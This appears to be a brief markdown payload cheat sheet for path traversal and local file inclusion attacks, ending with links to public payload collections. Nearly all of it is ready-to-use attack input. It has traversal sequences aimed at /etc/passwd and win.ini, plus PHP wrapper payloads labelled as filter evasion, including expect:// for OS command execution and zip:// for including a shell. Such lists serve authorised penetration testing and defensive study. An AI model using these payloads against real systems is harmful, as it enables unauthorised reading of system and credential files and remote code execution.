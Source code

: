 # Path Traversal List

## Directory Traversal Payloads

```
../../../../../../
..//..//..//..//..//
....//....//....//....//....//
```

## Linux LFI Payloads

```
/etc/passwd
```

## Windows LFI Payloads

```
/windows/win.ini
```

## Evasion Filters

```
php://filter/convert.base64-encode/resource=/path/to/file
php://input
data://text//plain;base64,<base64_encoded_payload>
expect://<os_command>
zip://file.jpg%23shell.php
```

---
## References

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

- [PayloadsAllTheThings: File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

- [Seclists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

- [0xffsec Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)

 - [Cobalt: A Pentester's Guide to File Inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)
